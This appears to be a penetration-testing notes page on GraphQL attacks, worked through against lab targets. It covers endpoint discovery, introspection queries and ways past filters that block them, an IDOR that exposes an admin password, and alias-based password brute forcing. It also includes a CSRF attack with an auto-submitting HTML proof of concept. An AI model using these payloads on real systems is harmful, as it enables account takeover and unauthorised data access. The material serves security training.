


>[!info] Pre-requisites
>- [GraphQL](GraphQL.md)

GraphQL vulnerabilities generally arise due to implementation and design flaws. GraphQL attacks usually take the form of malicious requests that can enable an attacker to obtain data or perform unauthorized actions.

Some of the most common vulnerabilities in GraphQL are:
- [Information Disclosure](Information%20Disclosure.md)
- [Access control vulnerabilities](Access%20control%20vulnerabilities.md)
- [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF))
- [Privilege Escalation](Privilege%20Escalation.md)

# Finding GraphQL endpoints [^1]

[^1]: https://escape.tech/blog/pentest101/

>[!info] Burpsuite Scanner
>Burp Scanner can automatically test for GraphQL endpoints as part of its scans. It raises a "GraphQL endpoint found" issue if any such endpoints are discovered.

## Universal queries

If you send `query{__typename}` to any GraphQL endpoint, it will include the string `{"data": {"__typename": "query"}}` somewhere in its response. This is known as a universal query, and is a useful tool in probing whether a URL corresponds to a GraphQL service.

## Common endpoint names

>[!note]
>GraphQL services will often respond to any non-GraphQL request with a "query not present" or similar error. You should bear this in mind when testing for GraphQL endpoints.

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
- `/graphql/v1`
- `/api/v1`
- `/api/graphql/v1`
- `/graphql/api/v1`
- `/graphql/graphql/v1`

Also consider do some permutations with `v2`, `v3` etc. and combine the results with `/usr/share/seclists/Discovery/Web-Content/graphql.txt`

## Request methods

It is best practice for production GraphQL endpoints to only accept POST requests that have a content-type of `application/json`.

If you can't find the GraphQL endpoint by sending POST requests to common endpoints, try resending the universal query using alternative HTTP methods and Content-Types (`x-www-form-urlencoded`).

```bash
$ ffuf -u 'https://0a44006203d242b9828fc47a00b70008.web-security-academy.net/FUZZ?query=%71%75%65%72%79%20%7b%5f%5f%74%79%70%65%6e%61%6d%65%7d' -w graphql.txt
...
[Status: 200, Size: 45, Words: 11, Lines: 5, Duration: 74ms]
    * FUZZ: api

$ curl 'https://0a44006203d242b9828fc47a00b70008.web-security-academy.net/api?query=%71%75%65%72%79%20%7b%5f%5f%74%79%70%65%6e%61%6d%65%7d' -X GET
{
  "data": {
    "__typename": "query"
  }
} 
```


# Initial testing [^2]

[^2]: https://escape.tech/blog/pentesting102/

Once you have discovered the endpoint, you can send some test requests to understand a little more about how it works. If the endpoint is powering a website, try exploring the web interface in Burp's browser and use the HTTP history to examine the queries that are sent.

## Discovering schema information

The next step in testing the API is to piece together information about the underlying schema. The best way to do this is to use [Introspection](GraphQL.md#Introspection) queries. 

>[!info] Introspection
>Introspection is a built-in GraphQL function that enables you to query a server for information about the schema.

```http
POST /graphql/v1 HTTP/1.1
Host: 0a160058033f3b2f81ce664200ad00fc.web-security-academy.net
Cookie: session=rS1sU5C0eQjGX44sA7GvCgdLxvsYSiJa
Content-Length: 1265
Accept: application/json
Content-Type: application/json
Connection: close

{"query": "query IntrospectionQuery {\r\n\t__schema {\r\n\t\tqueryType {\r\n\t\t\tname\r\n\t\t}\r\n\t\tmutationType {\r\n\t\t\tname\r\n\t\t}\r\n\t\tsubscriptionType {\r\n\t\t\tname\r\n\t\t}\r\n\t\ttypes {\r\n\t\t ...FullType\r\n\t\t}\r\n\t\tdirectives {\r\n\t\t\tname\r\n\t\t\tdescription\r\n\t\t\targs {\r\n\t\t\t\t...InputValue\r\n\t\t}\r\n\t\t}\r\n\t}\r\n}\r\n\r\nfragment FullType on __Type {\r\n\tkind\r\n\tname\r\n\tdescription\r\n\tfields(includeDeprecated: true) {\r\n\t\tname\r\n\t\tdescription\r\n\t\targs {\r\n\t\t\t...InputValue\r\n\t\t}\r\n\t\ttype {\r\n\t\t\t...TypeRef\r\n\t\t}\r\n\t\tisDeprecated\r\n\t\tdeprecationReason\r\n\t}\r\n\tinputFields {\r\n\t\t...InputValue\r\n\t}\r\n\tinterfaces {\r\n\t\t...TypeRef\r\n\t}\r\n\tenumValues(includeDeprecated: true) {\r\n\t\tname\r\n\t\tdescription\r\n\t\tisDeprecated\r\n\t\tdeprecationReason\r\n\t}\r\n\tpossibleTypes {\r\n\t\t...TypeRef\r\n\t}\r\n}\r\n\r\nfragment InputValue on __InputValue {\r\n\tname\r\n\tdescription\r\n\ttype {\r\n\t\t...TypeRef\r\n\t}\r\n\tdefaultValue\r\n}\r\n\r\nfragment TypeRef on __Type {\r\n\tkind\r\n\tname\r\n\tofType {\r\n\t\tkind\r\n\t\tname\r\n\t\tofType {\r\n\t\t\tkind\r\n\t\t\tname\r\n\t\t\tofType {\r\n\t\t\t\tkind\r\n\t\t\t\tname\r\n\t\t\t}\r\n\t\t}\r\n\t}\r\n}"}
```

You can view relationships between schema entities more easily using a [GraphQL visualizer](http://nathanrandal.com/graphql-visualizer/).



As an alternative to running an introspection query manually and visualizing the results, you can use Burp Suite's [InQL](https://github.com/doyensec/inql) extension. When you pass a URL to it (either by providing a live endpoint link or by uploading a JSON file), it issues an introspection query requesting all queries and mutations, and presents a structured view to make it easy to explore the results.



# Attacking GraphQL endpoints [^3]

[^3]: https://escape.tech/blog/pentest103/

## GraphQL IDOR

Testing query arguments is a good place to start. If the API uses arguments to access objects directly, it may be vulnerable to [Access control vulnerabilities](Access%20control%20vulnerabilities.md).

```graphql
# Example user query

query {
	getUser(id:2) {
		id
		username
	}
}

# Example product response

{
  "data": {
    "getUser": {
      "id": 2,
      "username": "wiener"
    }
  }
}

# Discovered with introscpetion that the getUser query also has a password field

OBJECT
User
id  !Int
username  !String
password  !String

# Requested the User object for id:1 (admin) and the corresponding password

query {
	getUser(id:1) {
		password
		id
		username
	}
}

{
  "data": {
    "getUser": {
      "password": "9k680yrexswi9hyaf8ln",
      "id": 1,
      "username": "administrator"
    }
  }
}
```

## Bypassing GraphQL introspection defences

If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the `__schema` keyword or change the HTTP method and content-type.

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex (see also [Evading whitelist-based input filters](Evading%20Restrictions.md#Evading%20whitelist-based%20input%20filters)).

```graphql
# Introspection query with newline

{
	"query": "query{__schema
	{queryType{name}}}"
}

# Introspection probe as GET request

GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```


## Bypassing rate limiting using aliases

Ordinarily, GraphQL objects can't contain multiple properties with the same name. [Aliases](GraphQL.md#Aliases) enable you to bypass this restriction by explicitly naming the properties you want the API to return. You can use aliases to return multiple instances of the same type of object in one request.

While aliases are intended to limit the number of API calls you need to make, they can also be used to brute force a GraphQL endpoint.

```http
POST /graphql/v1 HTTP/1.1
Host: 0a7700b804847876804280b900030002.web-security-academy.net
Cookie: session=Rf3mqw8obGIlhjFPsv2FVrN5sa6ymClA
Content-Length: 8799
Accept: application/json
Content-Type: application/json
Connection: close

{"variables": {}, "query": "\n    mutation login {\n        l123456: login(input:{password: \"123456\", username: \"carlos\"}) {token success}\r\nlpassword: login(input:{password: \"password\", username: \"carlos\"}) {token success}\r\nl12345678: login(input:{password: \"12345678\", username: \"carlos\"}) {token success}\r\nlqwerty: login(input:{password: \"qwerty\", username: \"carlos\"}){token success} ...


HTTP/1.1 200 OK
{
  "data": {
    "l123456": {
      "token": "Rf3mqw8obGIlhjFPsv2FVrN5sa6ymClA",
      "success": false
    },
    "lpassword": {
      "token": "Rf3mqw8obGIlhjFPsv2FVrN5sa6ymClA",
      "success": false
    },
    ...
    "landrew": {
      "token": "bQdyn36vx6O9tryHxdC2Srrr2DdSpW27",
      "success": true
    },
    "ltigger": {
      "token": "bQdyn36vx6O9tryHxdC2Srrr2DdSpW27",
      "success": false
    }
    ...
```

## GraphQL CSRF

GraphQL can be used as a vector for [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF)) attacks, whereby an attacker creates an exploit that causes a victim's browser to send a malicious query as the victim user. These vulnerabilities can arise where a GraphQL endpoint does not validate the content type of the requests sent to it and no CSRF tokens are implemented.

To defend against GraphQL CSRF vulnerabilities, ensure the following:
- Your GraphQL API only accepts queries over JSON-encoded POST.
- The API validates that content provided matches the supplied content type.
- The API has a secure CSRF token mechanism.

Original request:
```http
POST /graphql/v1 HTTP/1.1
Host: 0a9000830411fa9880e73aad007700b4.web-security-academy.net
Cookie: session=vYMakj2BmHy3jKygMbFzu1rfwy6MeaBo;

{"query":"\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n","operationName":"changeEmail","variables":{"input":{"email":"asd@asd.com"}}}
```

Vulnerable request:
```http
POST /graphql/v1 HTTP/1.1
Host: 0a9000830411fa9880e73aad007700b4.web-security-academy.net
Cookie: session=vYMakj2BmHy3jKygMbFzu1rfwy6MeaBo; session=vYMakj2BmHy3jKygMbFzu1rfwy6MeaBo
Content-Length: 121
Content-Type: application/x-www-form-urlencoded

Connection: close

query=mutation+%7B%0A%09changeEmail%28input%3A%7Bemail%3A+%220xbro.hack@done.it%22%7D%29+%7B%0A%09%09email%0A%09%7D%0A%7D


HTTP/1.1 200 OK
{
  "data": {
    "changeEmail": {
      "email": "0xbro.hack@done.it"
    }
  }
}
```

PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9000830411fa9880e73aad007700b4.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;&#123;&#10;&#9;changeEmail&#40;input&#58;&#123;email&#58;&#32;&quot;0xbro&#46;hack&#64;done&#46;it&quot;&#125;&#41;&#32;&#123;&#10;&#9;&#9;email&#10;&#9;&#125;&#10;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Tools

- [InQL](https://github.com/doyensec/inql)
- [GraphQL Visualizer](http://nathanrandal.com/graphql-visualizer/)
- [clairvoyance](https://github.com/nikitastupin/clairvoyance) (for enumeration when introspection is not enabled)